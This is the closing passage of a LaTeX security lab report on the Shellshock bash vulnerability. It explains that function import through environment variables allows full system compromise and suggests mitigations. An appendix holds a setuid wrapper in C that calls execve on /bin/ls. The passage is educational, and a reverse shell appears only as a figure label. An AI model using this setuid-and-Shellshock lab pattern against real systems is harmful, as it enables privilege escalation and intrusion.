	\label{fig:reverseshellcfm}
\end{figure}
\noindent The fundamental problem is that \texttt{bash} preserves legacy functions such as to import functions and store them as environment variables, where it can be exploited when \texttt{bash} is run on the system. This can effectively lead to full system compromise, since the attacker has full control of the system once the shell of the remote system appears.\\\\The mitigations that can be used to prevent such an attack is to use safe practices when coding, such as to use \texttt{execve} and restrict access to other users where possible to reduce the surface being exposed to attackers.
\newpage
\section{Appendix}
\subsection{Shellshock Attack: \texttt{execve}}
\begin{minted}{C}
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

char **environ;

int main()
{
    char *argv[3];
    argv[0]="/bin/ls";
    argv[1]="-l";
    argv[2]=NULL;

    setuid(geteuid());
    execve(argv[0], argv, environ);

    return 0;
}
\end{minted}


















	\end{document}